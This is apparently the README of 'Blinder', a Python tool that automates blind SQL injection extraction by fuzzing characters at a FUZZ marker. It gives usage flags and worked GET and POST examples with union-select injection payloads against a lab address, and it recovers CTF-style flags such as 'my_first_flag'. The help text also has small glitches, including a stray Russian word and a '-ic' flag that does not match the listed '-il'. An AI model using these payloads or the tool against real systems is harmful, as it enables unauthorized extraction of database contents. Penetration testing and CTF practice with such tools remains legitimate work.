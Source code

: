 # Blinder

Have you found a blind SQL injection? Great! Now you need to export it, but are you too lazy to sort through the values? Most likely, Blinder will help you!

Blinder is a tool that iterates through the values by letter. FUZZ is used to indicate the location of the search.

 ```
                       [HELP PAGE]
Usage: python3 blinder.py -u [URL] -v [GET/URL] -p [PARAMETERS]

Flags: 

[-h] [--help]: help page.фаззин
[--url] [-u]: url to target.
[-v] [--verbs]: HTTP verb (GET, POST, PUT and etc...).
[-p] [--parameters]: parameters for the target.
[-sl] [--show_length]: show response length.
[-il] [--incorrect_length]: size of incorrect length (for the filtration).
[-ec] [--exclude_characters]: Exclude characters from the fuzzing list. Specify sequentially in a line
    By default: [',&,%]
[-hg] [--hide-greeting]: Hide greeting.
[-ta] [--to-ascii]: Convert characters to ascii code.
[-ap] [--add-percent]: Add a percent sign to the end of FUZZ.
    In this mode, other characters can be added to the end of the line. These signs may be incorrect, due to the percentage.
[-tl] [--to-lower]: Convert letters to lowercase
[--hack]: Specify the URL of the target after the --hack flag, and it will be hacked.
```

## GET request

Let's specify the URL through the flag `[-u]`, and the verb through `[-v]`. Our request will look like this: . To make it work fine, add a percentage to the end of the line using the `[-ap]` flag. We want to see the length of the request. Let's add the `[-sl]` flag.

```bash
./blinder.py -u "http://192.168.0.100:7777/index.php?id=' union select id,name from users where name like 'FUZZ' -- -", -v GET  
-sl -ap
```

The end of result will be as follows:

![Pasted image 20211114160122](https://user-images.githubusercontent.com/70373439/141677868-562982a6-5753-4569-8980-5ee46ee73ea2.png)


We realized that the length `117` can be specified as incorrect. The letters will be converted to lowercase using the `[-tl]` flag, because we found upper and lower case letters. Specify the first letter `m`. In order for Blinder to fuzz recursively, we need to specify the wrong length 117 through `[-ic]` and remove the `[-sl]` flag.

```bash
/blinder.py -u "http://192.168.0.100:7777/index.php?id=' union select id,name from users where name like 'mFUZZ' -- -", -v GET -ap -il 117 -tl
```

![Pasted image 20211114160854](https://user-images.githubusercontent.com/70373439/141677834-24af56d5-65c2-4d32-a04f-83069ce572b1.png)


Let's connect the letter `m` and the result of Blinder:

`my_first_flag`

## POST request

In a post request, parameters are not passed through ?. There is a `[-p]` flag in Blinder for this request. We will specify the parameters using the `[-p]` flag. The rest of the flags, as in the get request.

```sql
./blinder.py -u "http://192.168.0.100:7777/index_post.php" -v POST -p "id=100' union select id,name from users where name like 'FUZZ' -- -" -sl -ap
```

The end of result will be as follows:

![Pasted image 20211114162703](https://user-images.githubusercontent.com/70373439/141677783-be290444-436c-4a00-a700-23bcaa74499b.png)

We realized that the length `184` can be specified as incorrect. The letters will be converted to lowercase using the `[-tl]` flag, because we found upper and lower case letters. Specify the first letter `f`. In order for Blinder to fuzz recursively, we need to specify the wrong length 184 through `[-ic]` and remove the `[-sl]` flag.

```bash
./blinder.py -u "http://192.168.0.100:7777/index_post.php" -v POST -p "id=100' union select id,name from users where name like 'fFUZZ' -- -" -il 184 -ap -tl
```


![Pasted image 20211114163021](https://user-images.githubusercontent.com/70373439/141677881-417a7dd1-4475-4352-9d9c-9705652aa96d.png)


Let's connect the letter `f` and the result of Blinder:

`flag`
